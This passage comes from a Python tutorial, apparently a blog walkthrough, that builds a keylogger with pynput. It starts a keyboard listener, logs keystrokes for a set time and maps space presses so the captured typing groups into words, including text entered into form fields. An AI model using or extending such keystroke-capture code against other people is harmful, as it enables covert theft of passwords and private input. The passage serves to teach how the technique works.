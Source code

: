 Finally let's print out the contents of the log after the time expires:

```python
if __name__ == "__main__":
    listener = keyboard.Listener(on_press=on_press)
    listener.start()
    sleep(10)
    listener.stop()
    print(log)
```

Let's try it out.

### Validation

![Chunked output](pictures/chunked.png)

Much smoother.

## Special Key Behaviors

Having a list of letters typed in order is nice, but I want to ultimately group meaningful strings of characters together into words. A logical place to break is on space bar presses and tab presses.

Space naturally shows up between words, and tab is used often between data entry while moving between form options.

I will eventually `join()` the list together on spaces, but I want both the space bar and tab presses to result in an empty string space `" "`. I think a dictionary look up would be a great tool to handle all of the special key presses I care about.

## `Key.space` as `" "`

I will have to replace the current `pass` statement, but first the dictionary:

```python
def on_press(key):
    special_lookup = {
        "Key.space": " "
    }
    try:
        log.append(key.char)
    except:
        if str(key) in special_lookup.keys():
            log.append(special_lookup[str(key)])
```

That might do it.

### Validation
